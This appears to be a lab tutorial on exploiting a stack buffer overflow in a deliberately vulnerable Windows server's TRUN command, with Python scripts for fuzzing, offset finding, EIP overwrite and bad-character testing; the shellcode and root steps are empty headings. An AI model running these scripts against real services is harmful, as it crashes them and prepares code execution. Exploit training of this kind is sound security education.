 Open the exe file as admin
Go to Debugger and then File -> Attach and then select the program.

## Step 1: SPIKING (Find vulnerable part of program)

Connect to the vuln application
```bash
nc -nv (ip addr of your windows machine it is running on) (port number): my ip is 10.0.0.52
```
Now throw bunch of charecters in each command and see if any of the commands accepted by the application is vulnerable
TO throw bunch of charecter we use 
```bash
./generic_send_tcp (ip adddr) (port) (some.spk) 
```
some.spk will look like: you can send as many charecter. just try to break the program
```bash
s_readline();
s_string("Some command name to test ");
s_string_variable("0");
```

Look you have to overwrite everything(ESP, EBP) till EIP. EIP will help to get the root access to anything.
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************

## Step 2: Fuzzing (Send bunch of charecter to break the program)
Use the below python code for a fuzzing script to break the specific command.
```bash
#!/usr/bin/python
import sys, socket
from time import sleep

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((target_ip, target_port))
		
		s.send(('TRUN /.:/' + buffer).encode())
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
		
	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
then do
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 3: Finding the offset (At what point it breaks)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (length from the previous output + some random offset to be safe)
```

Create another python file and use the following code:
```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

offset = "(The value from the previous metasploit command)"

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + offset).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```
Make the file executable
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

Copy the Number in front of EIP column in immunity debugger and then use the following command

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q (value in front of EIP)
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 4: Overwriting the EIP
Make another .py file to check EIP final and overwrite it

```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

shellcode = "A" * number from previous meta command + "B" * 4

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + shellcode).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```

Run the above file and see if it is the desired output

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 5: Finding the Bad Charecters
BadChar List
```bash
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```


Then create a new file and use the below code

```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")


shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + shellcode).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```
Run the above file


Right click on the ESP in immunity debugger-> follow in dump

check the hex code and see if something is missing or messed up. If there are two consecutive messed up numbers only the first one is the bad char but to be on safer side take out both.




************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 6: Finding the right module
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 7: Generating shellcode
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 8: Gain Root
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************




